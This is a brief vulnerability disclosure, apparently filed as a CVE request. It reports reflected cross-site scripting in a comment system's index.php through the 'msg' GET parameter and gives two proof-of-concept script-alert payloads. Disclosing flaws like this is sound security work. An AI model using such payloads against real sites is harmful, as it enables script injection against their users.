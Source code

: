 BUG_Author: kanyulu

Vulnerability File: /Comment_System/index.php

GET parameter "msg" exists reflected cross-site scripting vulnerability

Payload1: msg=<script>alert('xss')</script>

![image](https://github.com/kanyl6/CVERequest/blob/main/1.png)

Payload2: msg=<script>alert(789)</script>

![image](https://github.com/kanyl6/CVERequest/blob/main/2.png)
